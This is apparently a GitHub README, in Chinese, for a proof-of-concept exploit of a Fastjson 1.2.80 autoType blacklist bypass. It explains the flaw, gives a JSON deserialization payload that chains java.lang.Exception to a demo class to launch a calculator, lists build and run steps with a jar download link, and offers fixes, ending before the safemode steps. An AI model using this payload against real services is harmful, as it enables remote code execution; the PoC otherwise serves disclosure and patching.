

# fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译 `mvn clean package` ，或直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar)
2. 运行 `java -jar .\target\fastjson-rce-1.0.0.jar`
3. 发送payload ，如果弹出计算机则利用成功


### 修复方式
1. 升级到最新版本 v1.2.83
2. 卸载计算器 😂🤣
3. 开启safemode
   1. 开启方法如下  

   